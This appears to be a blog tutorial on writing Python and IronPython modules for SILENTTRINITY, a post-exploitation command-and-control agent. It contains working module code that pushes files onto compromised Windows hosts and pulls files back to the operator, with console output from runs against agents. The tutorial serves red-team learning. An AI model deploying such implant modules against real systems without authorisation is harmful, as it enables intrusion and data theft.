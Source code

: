 ```yaml
---
layout: post
title:  "Writing a basic Module for SILENTTRINITY"
date:   2018-10-21 18:47:00 -0400
categories:
  - Code
tags:
  - Python
  - SILENTTRINITY
  - IronPython
  - Pentesting
---
```


***SILENTTRINITY*** is a post-exploitation agent powered by Python, IronPython and C#/.NET written by [byt3bl33d3r](https://twitter.com/byt3bl33d3r), also author of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), the swiss army knife for pentesting networks. SILENTTRINITY was presented at DerbyCon 8.0 and everybody was really impressed (yes, I was also there). I really like C# (.NET) and Python, those are my favorites programming languages and [IronPython](https://github.com/IronLanguages/ironpython2) looks really promising. So why not contribute to this project? ![SILENTTRINITY][SILENTTRINITY-screenshot]

### How does this work?

The next image explains by itself how is the dynamic here. ![SILENTTRINITY-DIAGRAM][SILENTTRINITY-diagram]

The idea is really simple: we run our initial stager, the target ask for the payload and the encrypted communication continues back and forward waiting for a job, once a job is received the target executes the job (written in IronPython) and the output is sent to the server. I highly recommend to watch Marcello's talk to have a better idea of what we're talking about here and learn the beauty of SILENTTRINITY:

[![Track 2 05 IronPython omfg Marcello Salvati](https://img.youtube.com/vi/NaFiAx737qg/0.jpg)](https://www.youtube.com/watch?v=NaFiAx737qg)

### Let's code, baby!

This is the fun part. In order to have your Developer Environment up and running follow this Wiki: [Setting up your development environment](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki/Setting-up-your-development-environment). I'm using [PyCharm Community Edition](https://www.jetbrains.com/pycharm/) and I'm running [Python 3.7.0](https://www.python.org/downloads/release/python-370/) on macOS. After creating a *virtualenv* and importing the `Server` folder into the IDE, we're ready to write some code, but first I'm sharing my PyCharm setting to show you how to properly debug Console apps:

![PyCharm Debug][SILENTTRINITY-pycharm-debug]

Cool. I'm going to use a simple module written by me called [Uploader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/12).

```python
class STModule:
    def __init__(self):
        self.name = 'uploader'
        self.description = 'Upload a file to a destination path.'
        self.author = '@davidtavarez'
        self.options = {
            'File': {
                'Description': 'The absolute path of the file.',
                'Required': True,
                'Value': None
            },
            'Destination': {
                'Description': 'The destination path of the file.',
                'Required': False,
                'Value': "C:\\\\WINDOWS\\\\Temp\\\\"
            }
        }

    def payload(self):
        if self.options['File']['Value'] is None:
            return None

        import os
        import base64

        if not os.path.exists(self.options['File']['Value']):
            from core.utils import print_bad
            print_bad("Selected file do not exists.")
            return None

        with open(self.options['File']['Value'], "rb") as file:
            encoded_string = base64.b64encode(file.read()).decode("utf-8")

        with open('modules/src/uploader.py', 'r') as module_src:
            src = module_src.read()
            src = src.replace("FILENAME", os.path.basename(self.options['File']['Value']))
            src = src.replace("DESTINATION", self.options['Destination']['Value'])
            src = src.replace("DATA", encoded_string)
            return src.encode()
```

As you can notice, the class of the module must be called `STModule` and must include a `Constructor` and a definition of the method called `payload`. Our constructor must contains at least the next properties:

* ***name***: the name of the module.
* ***description***: a short summary of what your modules does.
* ***author***: your handle.
* ***options***: the options accepted in your module.

All options are displayed after we decided to use the module and run the `options` command:

```
ST (modules) ≫ use uploader  
ST (modules)(uploader) ≫ options
+-------------+----------+---------------------+-----------------------------------+
| Option Name | Required | Value               | Description                       |
+-------------+----------+---------------------+-----------------------------------+
| File        | True     | None                | The absolute path of the file.    |
+-------------+----------+---------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\ | The destination path of the file. |
+-------------+----------+---------------------+-----------------------------------+
ST (modules)(uploader) ≫
```

To set a value we need to use the `set` command like this:

```
ST (modules)(uploader) ≫ set File /Users/davidtavarez/uploader.txt
ST (modules)(uploader) ≫ options
+-------------+----------+----------------------------------+-----------------------------------+
| Option Name | Required | Value                            | Description                       |
+-------------+----------+----------------------------------+-----------------------------------+
| File        | True     | /Users/davidtavarez/uploader.txt | The absolute path of the file.    |
+-------------+----------+----------------------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\              | The destination path of the file. |
+-------------+----------+----------------------------------+-----------------------------------+
ST (modules)(uploader) ≫ 
```

### The payload

The payload that is written in IronPython is sent to the target using the `payload` method and the source code should be placed inside the folder named `src`.

```python
from System import Convert
from System.IO import File


def DecodeBase64File(Data, FileName, FilePath="C:\\WINDOWS\\Temp\\"):
    path = "{}{}".format(FilePath, FileName)
    File.WriteAllBytes(path,Convert.FromBase64String(Data))
    return 'File copied to: {}'.format(path)

print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")
```

The "tricky" part resides here: `print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")`. We're calling `print` to read the results of `DecodeBase64File`, so the output is sent to the server:

```
ST (modules)(uploader) ≫ run all
[+] d53c4737-c23e-4ec6-875a-c59e8ffa7056 returned job result (id: TmbazEXM)
File copied to: C:\WINDOWS\Temp\uploader.txt
```

Going back to the module code, we're replacing *DATA* with the content of the file named *FILENAME* and then, passing the *DESTINATION* folder to the payload.

That's it! Summarizing, there are just two steps:

1. Create a class called: STModule with a constructor and a method named: `payload`.
2. Create your IronPython payload and pass the values taken from `options`.

### But... there's more...

I really wanted to manage the output using my module, so I send a [Pull Request](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15) for this. This is how my base class looks now:

```python
class Module:
    def __init__(self):
        self.name = 'module'
        self.description = ''
        self.author = ''
        self.options = {}

    def process(self, result):
        print(result)
```

I did create a new module called: [Downloader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15/commits/f1c73b3341b91fea01988f18af9b60bcde6767ab) just as PoC:


```python
...
    def process(self, result):
        b64_string = result.replace("\n", "").replace("\r", "")
        b64_string += "=" * ((4 - len(b64_string) % 4) % 4)
        b64_string = b64_string.encode()

        ba = bytes(b64_string)

        with open(self.path, "wb") as file:
            file.write(base64.decodebytes(ba))

        print_good("File was downloaded successfully: {}".format(self.path))
```

Now we can have control of the response just overwritting the method: `process`.

[SILENTTRINITY-screenshot]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/SILENTTRINITY_screenshot.png
[SILENTTRINITY-diagram]: https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png
[SILENTTRINITY-pycharm-debug]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/4aa7a53f11c9ce9ed9957e60b1abace95afe5dda/_images/posts/pycharm_debug_SILENTTRINITY.png